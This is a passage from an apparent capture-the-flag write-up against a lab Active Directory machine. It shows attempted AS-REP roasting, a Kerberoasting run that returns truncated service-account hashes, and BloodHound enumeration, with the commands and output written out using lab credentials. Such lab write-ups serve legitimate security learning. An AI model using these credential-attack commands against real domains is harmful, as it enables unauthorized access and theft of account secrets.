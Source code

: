 I initially thought that this was the intended path as the `j.fleischman` user had WRITE privileges over the folder. After it did not work out I tried other type of attacks focused towards Active Directory.

I attempted AS-REP roasting but did not work.

```bash
$ netexec ldap fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --asreproast asrep.txt
LDAP        10.10.11.69     389    fluffy.htb       [-] Error retrieving os arch of 10.10.11.69: Could not connect: timed out

SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.69     389    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
LDAP        10.10.11.69     389    DC01             [*] Total of records returned 3
LDAP        10.10.11.69     389    DC01             No entries found!
```

I also did Kerberoasting which gave me back hashes to be cracked for the `ca_svc`,`ldap_svc` and `winrm_svc` accounts.

```bash
impacket-GetUserSPNs fluffy.htb/j.fleischman:'J0elTHEM4n1990!' -dc-ip 10.10.11.69 -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName    Name       MemberOf                                       PasswordLastSet             LastLogon                   Delegation 
----------------------  ---------  ---------------------------------------------  --------------------------  --------------------------  ----------
ADCS/ca.fluffy.htb      ca_svc     CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-17 12:07:50.136701  2025-05-21 18:21:15.969274             
LDAP/ldap.fluffy.htb    ldap_svc   CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-17 12:17:00.599545  <never>                                
WINRM/winrm.fluffy.htb  winrm_svc  CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-05-17 20:51:16.786913  2025-05-19 11:13:22.188468             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*ca_svc$FLUFFY.HTB$fluffy.htb/ca_svc*$3aa6[...]9dc48
$krb5tgs$23$*ldap_svc$FLUFFY.HTB$fluffy.htb/ldap_svc*$092e[...]f07e
$krb5tgs$23$*winrm_svc$FLUFFY.HTB$fluffy.htb/winrm_svc*$44[...]9bc
```

We get three hashes for kerberoastable accounts thanks to impacket's **GetUserSPNs**. However I was not able to crack these with `rockyou.txt` as wordlist and `d3ad0ne` as ruleset.


After not getting anything I then enumerated my privileges within the Active Directory environment. I used bloodhound's python collector for this.

```bash
$ bloodhound-python -c All -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --dns-tcp -dc dc01.fluffy.htb -ns 10.10.11.69
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
```